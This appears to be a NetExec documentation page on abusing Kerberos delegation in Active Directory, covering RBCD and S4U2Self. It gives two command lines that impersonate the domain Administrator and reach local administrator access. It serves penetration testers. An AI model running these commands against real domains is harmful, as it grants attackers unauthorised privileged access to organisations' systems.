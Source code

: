 ```yaml
---
description: Resource Based Constrained Delegation (RBCD) and
---
```


# 🆕 Delegation

## RBCD

If you have an object with the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute set to an account you control you can use the impersonate flag inside NetExec to automatically execute the Resource Based Constrained Delegation and impersonate any user:

```bash
nxc smb $TARGET -u $USER -p $PASSWORD --delegate Administrator
```

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption><p>RBCD with NetExec</p></figcaption></figure>

## S4U2Self

If you have a computer account you can (nearly) always get local administrator with the s4u2self extension:

```bash
nxc smb $TARGET -u $USER -H $NT_HASH --delegate Administrator --self
```

<figure><img src="../../.gitbook/assets/self (2).png" alt=""><figcaption><p>S4U2Self abuse using NetExecs delegation feature</p></figcaption></figure>



## Resources:

{% embed url="https://www.thehacker.recipes/a-d/movement/kerberos/delegations/rbcd" %}

{% embed url="https://www.thehacker.recipes/a-d/movement/kerberos/delegations/s4u2self-abuse" %}

{% embed url="https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/resource-based-constrained-delegation" %}
